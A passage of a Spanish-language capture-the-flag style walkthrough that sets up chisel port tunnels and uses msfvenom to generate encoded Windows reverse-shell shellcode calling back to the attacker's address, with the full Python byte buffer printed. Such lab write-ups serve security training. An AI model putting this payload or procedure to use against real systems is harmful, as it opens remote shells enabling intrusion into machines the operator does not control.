 Gracias a este procedimiento, al revisar los puertos dentro del servidor atacante, se confirma que el puerto **8888** está en uso.

```bash
netstat -tunlp

Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp6       0      0 :::4444                 :::*                    LISTEN      60709/chiselLinux   
tcp6       0      0 :::8888                 :::*                    LISTEN      60709/chiselLinux   
udp        0      0 0.0.0.0:43016           0.0.0.0:*                           -                   
```
{: .nolineno}

Solo falta crear el **shellcode** con la ayuda de `msfvenom`, de manera que envíe una **shell reversa** hacia nuestro equipo.

```bash
msfvenom -a x86 -p windows/shell_reverse_tcp LPORT=5555 LHOST=10.10.14.14  -b "\x00\x0a\x0d" -f python
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 12 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1745 bytes
buf =  b""
buf += b"\xba\xfe\x80\x2f\xfa\xd9\xf6\xd9\x74\x24\xf4\x58"
buf += b"\x33\xc9\xb1\x52\x83\xc0\x04\x31\x50\x0e\x03\xae"
buf += b"\x8e\xcd\x0f\xb2\x67\x93\xf0\x4a\x78\xf4\x79\xaf"
buf += b"\x49\x34\x1d\xa4\xfa\x84\x55\xe8\xf6\x6f\x3b\x18"
buf += b"\x8c\x02\x94\x2f\x25\xa8\xc2\x1e\xb6\x81\x37\x01"
buf += b"\x34\xd8\x6b\xe1\x05\x13\x7e\xe0\x42\x4e\x73\xb0"
buf += b"\x1b\x04\x26\x24\x2f\x50\xfb\xcf\x63\x74\x7b\x2c"
buf += b"\x33\x77\xaa\xe3\x4f\x2e\x6c\x02\x83\x5a\x25\x1c"
buf += b"\xc0\x67\xff\x97\x32\x13\xfe\x71\x0b\xdc\xad\xbc"
buf += b"\xa3\x2f\xaf\xf9\x04\xd0\xda\xf3\x76\x6d\xdd\xc0"
buf += b"\x05\xa9\x68\xd2\xae\x3a\xca\x3e\x4e\xee\x8d\xb5"
buf += b"\x5c\x5b\xd9\x91\x40\x5a\x0e\xaa\x7d\xd7\xb1\x7c"
buf += b"\xf4\xa3\x95\x58\x5c\x77\xb7\xf9\x38\xd6\xc8\x19"
buf += b"\xe3\x87\x6c\x52\x0e\xd3\x1c\x39\x47\x10\x2d\xc1"
buf += b"\x97\x3e\x26\xb2\xa5\xe1\x9c\x5c\x86\x6a\x3b\x9b"
buf += b"\xe9\x40\xfb\x33\x14\x6b\xfc\x1a\xd3\x3f\xac\x34"
buf += b"\xf2\x3f\x27\xc4\xfb\x95\xe8\x94\x53\x46\x49\x44"
buf += b"\x14\x36\x21\x8e\x9b\x69\x51\xb1\x71\x02\xf8\x48"
buf += b"\x12\x27\xf7\x5c\xec\x5f\x05\x60\xe5\x2c\x80\x86"
buf += b"\x6f\x43\xc5\x11\x18\xfa\x4c\xe9\xb9\x03\x5b\x94"
buf += b"\xfa\x88\x68\x69\xb4\x78\x04\x79\x21\x89\x53\x23"
buf += b"\xe4\x96\x49\x4b\x6a\x04\x16\x8b\xe5\x35\x81\xdc"
buf += b"\xa2\x88\xd8\x88\x5e\xb2\x72\xae\xa2\x22\xbc\x6a"
buf += b"\x79\x97\x43\x73\x0c\xa3\x67\x63\xc8\x2c\x2c\xd7"
buf += b"\x84\x7a\xfa\x81\x62\xd5\x4c\x7b\x3d\x8a\x06\xeb"
buf += b"\xb8\xe0\x98\x6d\xc5\x2c\x6f\x91\x74\x99\x36\xae"
buf += b"\xb9\x4d\xbf\xd7\xa7\xed\x40\x02\x6c\x1d\x0b\x0e"
buf += b"\xc5\xb6\xd2\xdb\x57\xdb\xe4\x36\x9b\xe2\x66\xb2"
buf += b"\x64\x11\x76\xb7\x61\x5d\x30\x24\x18\xce\xd5\x4a"
buf += b"\x8f\xef\xff"
```
{: .nolineno}
